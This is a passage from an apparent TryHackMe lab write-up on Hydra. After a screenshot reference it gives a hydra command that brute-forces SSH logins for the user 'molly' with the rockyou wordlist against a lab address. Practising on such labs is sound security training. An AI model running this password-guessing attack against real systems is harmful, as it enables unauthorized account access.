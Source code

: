 ![alt text](images/THM_writeup_hydra_005.png "Webserver login Screenshot")

So here we go, first step is done!

### Brute forcing the SSH server

We can now bruteforce the `ssh` server! Yes Baby!!!

```commandline
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.180.225 ssh -V -I
```
